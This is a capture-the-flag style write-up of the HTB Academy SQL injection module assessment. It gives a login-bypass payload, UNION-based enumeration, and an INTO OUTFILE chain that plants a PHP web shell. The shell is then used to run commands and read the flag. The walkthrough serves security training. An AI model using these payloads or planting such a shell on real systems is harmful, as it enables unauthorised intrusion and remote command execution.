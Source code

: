 ```yaml
---
slug: /write-up/htb-academy/sqli
pagination_next: null
pagination_prev: null
---
```


This is the write-up for the assessment of HTB academy [SQL injections](https://academy.hackthebox.com/module/33) module.

## Login page

First of all we're given a login page, most likely we'll need to provide a SQLi to bypass the login.

Let's evaluate which fields are vulnerable to SQLi by providing a dangling character, e.g: `'` to break the query.

```bash
curl -vvv 'http://83.136.251.235:30056/' -X POST -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'username=\'&password=1234'
```

We couldn't break any field with the escape characters. We can try some of the pre-defined SQL injections from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-default-databases.

The second one worked fine:

```sql
' OR 1 -- -
```

and we're presented a dashboard with a search box.

## Search box

The search box make a request like:

```bash
curl 'http://83.136.251.235:30056/dashboard/dashboard.php' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: PHPSESSID=t7addrm0eidu7ag6m1e7e31geo' --data-raw 'search=a'
```

Looks like the search only works to search the values in the date.

We should follow the same approach: let's try to break the search with escape character: `'` and it worked, we can see an error.

Let's try to determine the number of columns:

```sql
a' UNION SELECT 1,2,3,4 -- -
```
It shows: ` The used SELECT statements have a different number of columns`

It worked with:

```sql
a' UNION SELECT 1,2,3,4,5 -- -
```
But the first column is not shown

The objective is to install a web-shell, so let's enumerate if we're capable of.

```sql
a' UNION SELECT 1,user(),3,4,5 -- -
```
and we got `root@localhost`

Let's check privileges:

```sql
a' UNION SELECT 1,grantee, privilege_type,4,5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'" -- -
```

`FILE` privilege is there.


Check for write file global var:

```sql
a' UNION SELECT 1,variable_name, variable_value,4,5 FROM information_schema.global_variables where variable_name="secure_file_priv" -- -
```

The variable is not set, so we can write.

Let's try it:

```sql
a' UNION SELECT 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt' -- -
```

Now let's try to read it, before we try to install the shell.

```sql
a' UNION SELECT 1,LOAD_FILE('/var/www/html/dashboard/proof.txt'),3,4,5 -- -
```

We got the contents back, so let's install the shell.

```sql
a' UNION select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/1.php' -- -
```

And we've got the shell `http://83.136.251.235:30056/dashboard/1.php?0=id`

Now we list files at root: `http://83.136.251.235:30056/dashboard/1.php?0=ls%20/`

Now we can retrieve the flag: `http://83.136.251.235:30056/dashboard/1.php?0=cat%20/flag_cae1dadcd174.txt`